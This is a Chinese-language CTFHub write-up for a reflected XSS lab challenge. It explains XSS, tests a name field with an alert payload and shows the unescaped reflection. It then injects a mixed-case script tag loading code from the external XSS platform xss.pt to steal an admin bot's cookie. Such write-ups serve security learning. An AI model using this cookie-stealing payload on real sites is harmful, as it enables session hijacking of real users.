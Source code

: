 ```yaml
---
layout: post
title: ctf hub-反射型
categories: [CTF]
description: ctfhub
keywords: ctfhub 
---
```


# 反射型


## 题目考点
JavaScript基础

XSS平台


## 解题思路

XSS，全称**Cross Site Scripting**，即跨站脚本攻击，某种意义上也是一种注入攻击，是指攻击者在页面中注入恶意的脚本代码，当受害者访问该页面时，恶意代码会在其浏览器上执行

直接在What's your name表单中插入测试语句

```
<script>alert(1)</script>
```
弹框：1

![](https://static.ctfhub.com/writeup/Skill/Web/XSS/%E5%8F%8D%E5%B0%84%E5%9E%8B/4x6xrK8brC9ppnDuB1kfp8.png?imageMogr2/auto-orient/blur/1x0/quality/75%7Cwatermark/1/image/aHR0cHM6Ly9zdGF0aWMuY3RmaHViLmNvbS93cml0ZXVwL2ltYWdlX21hc2sucG5n/dissolve/100/gravity/SouthEast/dx/10/dy/10%7Cimageslim)


下面来分析一下为什么会执行弹窗呢，右键查看源代码，发现以下代码

```
<div>
    <h1>Hello, <script>alert(1)</script></h1>
</div>

```

输入的`<script>alert(1)</script>`在页面上输入了

而`<script>`标签中的alert语句则被html正常解析执行弹窗

在xss平台(如[xss.pt](https://xss8.cc/bdstatic.com/?callback=project&act=viewcode&id=36290))中创建项目，获得js代码如下

```

<sCRiPt sRC=//xss.pt/1234></sCrIpT>


```

在第二个表单中发送给后台的bot让其遭受xss攻击（实际上是模拟管理员点击了恶意xss链接盗取cookie）


![](https://static.ctfhub.com/writeup/Skill/Web/XSS/%E5%8F%8D%E5%B0%84%E5%9E%8B/swFRzX3rM59ngfL6MzCFPW.png?imageMogr2/auto-orient/blur/1x0/quality/75%7Cwatermark/1/image/aHR0cHM6Ly9zdGF0aWMuY3RmaHViLmNvbS93cml0ZXVwL2ltYWdlX21hc2sucG5n/dissolve/100/gravity/SouthEast/dx/10/dy/10%7Cimageslim)




xss平台的cookie中返回flag字符串

![](https://static.ctfhub.com/writeup/Skill/Web/XSS/%E5%8F%8D%E5%B0%84%E5%9E%8B/4qht1uSMwe1cU9M6vENub3.png?imageMogr2/auto-orient/blur/1x0/quality/75%7Cwatermark/1/image/aHR0cHM6Ly9zdGF0aWMuY3RmaHViLmNvbS93cml0ZXVwL2ltYWdlX21hc2sucG5n/dissolve/100/gravity/SouthEast/dx/10/dy/10%7Cimageslim)
# 参考

本文作者： CTFHub
本文链接： https://writeup.ctfhub.com/Skill/Web/XSS/5ByYBypxDitGZF2rsUYdh3.html
版权声明： 本博客所有文章除特别声明外，均采用 BY-NC-SA 许可协议。转载请注明出处
